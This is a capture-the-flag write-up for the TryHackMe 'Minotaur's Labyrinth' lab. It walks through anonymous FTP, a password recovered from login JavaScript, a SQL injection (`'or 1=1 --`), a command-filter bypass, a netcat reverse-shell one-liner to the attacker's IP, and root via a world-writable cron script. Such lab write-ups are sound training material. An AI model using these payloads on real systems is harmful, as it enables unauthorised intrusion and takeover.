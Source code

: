 # TryHackMe-Minotaur's Labyrinth

## NMAP 

```bash

21/tcp   open  ftp      syn-ack ttl 63 ProFTPD                    
| ftp-anon: Anonymous FTP login allowed (FTP code 230)     
|_drwxr-xr-x   3 nobody   nogroup      4096 Jun 15 14:57 pub
80/tcp   open  http     syn-ack ttl 63 Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)                           
|_http-favicon: Unknown favicon MD5: C4AF3528B196E5954B638C13DDC75F2F
| http-methods:                                                           
|_  Supported Methods: GET HEAD POST OPTIONS                      
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1
| http-title: Login                                                       
|_Requested resource was login.html                                       
443/tcp  open  ssl/http syn-ack ttl 63 Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/8.0.7 mod_perl/2.0.11 Perl/v5.32.1)
|_http-favicon: Unknown favicon MD5: BE43D692E85622C2A4B2B588A8F8E2A6
| http-methods:                                                           
|_  Supported Methods: GET HEAD POST OPTIONS                      
3306/tcp open  mysql?   syn-ack ttl 63                                    
| fingerprint-strings:                                                    
|   NULL:                                                                 
|_    Host 'ip-10-8-94-60.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server                                              
| mysql-info:                                                             
|_  MySQL Error: Host 'ip-10-8-94-60.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server                                   
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint 
```

## PORT 21 (FTP)

Since `anonymous` login is enabled , we can login to ftp without the need of password

<img src="https://i.imgur.com/DnUuRPN.png"/>

We can see a directory named `pub` and in that folder we'll see another hidden folder and a text file

<img src="https://i.imgur.com/Bq8h52F.png"/>

From `.secret` we'll get two more text files

<img src="https://i.imgur.com/7YVZPD4.png"/>

The message that those two files give us is

<img src="https://i.imgur.com/OK3bGH3.png"/>

## PORT 80 (HTTP)

On the webserver we can find a login page

<img src="https://i.imgur.com/Vx1rEhF.png"/>

If we check the source , we can fing `login.js` 

<img src="https://i.imgur.com/t38Snf4.png"/>

<img src="https://i.imgur.com/2exei9V.png"/>

Looking into the javascript file , we can see there are three arrays , `a`,`b` and `c` and the indexes of these 3 arrays are being combined to generate a password , so we need to just copy that part of the function and just print the concatenated value of string also to note that this is a password for `Daedalus`

```python
a = ["0", "h", "?", "1", "v", "4", "r", "l", "0", "g"]
b = ["m", "w", "7", "j", "1", "e", "8", "l", "r", "a", "2"]
c = ["c", "k", "h", "p", "q", "9", "w", "v", "5", "p", "4"]
print (a[9]+b[10]+b[5]+c[8]+c[8]+c[1]+a[1]+a[5]+c[0]+c[1]+c[8]+b[8])
```

<img src="https://i.imgur.com/UHFWZ2c.png"/>

After submitting those credentials onto the login page we'll be granted access to the dashboard

<img src="https://i.imgur.com/Rp4Yiys.png"/>

If we scroll down a little , we can see that there are two options  , either we search for people name from `People` table or we search for creature name from `Creatures` table , so let's run `burp suite` on this page and try some sqli

If we search the name "Daedalus" it will return us this user's id and password

<img src="https://i.imgur.com/xUzT8ow.png"/>

So let's try a sqli `'or 1=1 --`

<img src="https://i.imgur.com/rpjFm68.png"/>

And this gave us all the reuslts from Person's table, we can also check how many number of columns does this table have so we can also enumerate which version of `mysql` it's using.

<img src="https://i.imgur.com/2Jb1uF9.png"/>
 
If we try to arrange the records by 4th column it's going to give us an error meaning that there are only 3 columns in the table

<img src="https://i.imgur.com/rZ5cX2z.png"/>

We can crack the users password from `crackstation` website

<img src="https://i.imgur.com/gMlQHcB.png"/>

On logging in with `M!n0taur` user we can see another tab in navigation bar 

<img src="https://i.imgur.com/57aYBJ2.png"/>

<img src="https://i.imgur.com/DXLJtIv.png"/>

## Foothold

On this page we can echo text but if we try to break out of the command to run bash commands we can't as it's using this regex (saw from the hint)

`/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/`

This regex doesn't include `|` so we can echo `id` and pipe it's reuslt to `bash`

<img src="https://i.imgur.com/HaxMYaa.png"/>

We can check if there's netcat (nc) available on this machine

<img src="https://i.imgur.com/xFemE0Z.png"/>

To get a reverse shell , we need to base64 encode the netcat shell because there will be special characters in the payload so first we'll convert it to base64 

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.94.60 2222 >/tmp/f`

<img src="https://i.imgur.com/73beC7k.png"/>

And we'll send it by piping it to base64 deocde and then to bash

<img src="https://i.imgur.com/5d2hMcu.png"/>

Stabilizing the shell

<img src="https://i.imgur.com/qwtt7Bf.png"/>

We can check the `echo.php` file just to understand what was happening in the background

<img src="https://i.imgur.com/VsGOhaJ.png"/>

Also we can find database credentials from `dbconnect.php`

<img src="https://i.imgur.com/ukF2Fg1.png"/>

In `user` directory we can get our user flag

<img src="https://i.imgur.com/E8daZU2.png"/>

## Privilege Escalation (root)

We can find a directory named `timer` in root directory `/`

<img src="https://i.imgur.com/nfHx68r.png"/>

```bash
#!/bin/bash                                                               
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
```

We know that everyone can read ,write and execute this bash script , so we can try to add `id`  and save the result in a file ,and if we wait for the bash script to be executed we'll see the result of this command

<img src="https://i.imgur.com/nOnx2Qh.png"/>

<img src="https://i.imgur.com/a8KTbdO.png"/>

Now what we can do is , make bash a `SUID` so when we execute bash it will be executed as root user and we will get shell as root user

<img src="https://i.imgur.com/uKPntQy.png"/>

<img src="https://i.imgur.com/vidty1P.png"/>

<img src="https://i.imgur.com/1AYGm4j.png"/>